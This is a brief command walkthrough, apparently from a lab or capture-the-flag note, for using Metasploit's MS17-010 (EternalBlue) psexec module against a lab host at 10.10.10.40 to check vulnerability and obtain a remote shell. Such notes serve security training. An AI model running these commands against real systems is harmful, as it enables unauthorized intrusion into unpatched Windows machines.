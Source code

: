 Open metasploit
```
msfconsole
```
Search for specific exploit
```
search exploit eternalblue
```
Use the found exploit
```
use exploit/windows/smb/ms17_010_psexec
```
Show the options of the exploit
```
show options
```
Set some (required) options
```
set RHOSTS 10.10.10.40
set LHOST tun0
```

Check if the system is vunerable
```
check
```
Get a shell
```
exploit
```


